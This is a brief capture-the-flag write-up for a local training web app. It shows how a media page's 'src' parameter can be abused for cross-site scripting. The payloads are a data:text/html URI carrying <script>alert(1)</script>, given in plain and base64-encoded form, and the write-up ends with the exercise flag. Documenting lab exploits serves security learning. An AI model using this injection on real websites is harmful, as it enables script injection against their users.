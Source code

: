 - We can click on the third image of index.php than shows us a new page: http://localhost:8888/?page=media&src=nsa
- In the source code we find this: <object data="http://10.0.10.15/images/nsa_prism.jpg"></object>
- THe page dynamically load a ressource (Here an image).
- The value data is derived from the src parameter and nsa is a key to the filename. If we modify the data parameter in the html source code we could inject javascriipt code. 
- To do so, we have specify a value for data like this:

```
?page=media&src=data:text/html,<script>alert(1)</script> (It works but it doesnt show us the flag so let's encode it in base64)

?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

- We got the flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

